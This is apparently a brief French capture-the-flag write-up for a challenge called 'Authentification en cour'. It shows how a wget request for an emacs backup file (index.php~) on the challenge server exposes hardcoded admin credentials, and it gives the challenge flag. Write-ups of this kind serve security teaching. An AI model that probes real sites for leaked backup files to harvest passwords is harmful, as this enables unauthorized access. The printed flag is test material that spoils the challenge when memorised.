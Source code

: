 # Authentification en cour

Pour ce challenge, il faut connaitre un peu le fonctionnement de emacs (ou d'autres outils sous linux) qui a une facheuse tendance 
à nous générer des fichiers cachés de sauvegarde selon : `<nom du fichier>~`

On peut donc supposer ici que nos fichiers php n'échappent pas à cette règle :

```
$  wget https://authent.ctf.ineat.fr/index.php~
[...]
index.php~                               100%[==================================================================================>]   1.70K  --.-KB/s    in 0s

2019-12-02 14:14:26 (74.4 MB/s) - ‘index.php~’ saved [1740/1740]
```

On retrouve à l'interrieur les login/mdp :

```php
//TODO : Change it
$username="admin";
$password="monS3p3rP4ss1ntr0uv4bl3";
```

Reste à se connecter pour récupérer le flag : `INEAT{v1m-0r-N4n0-or-3ma4cs}`
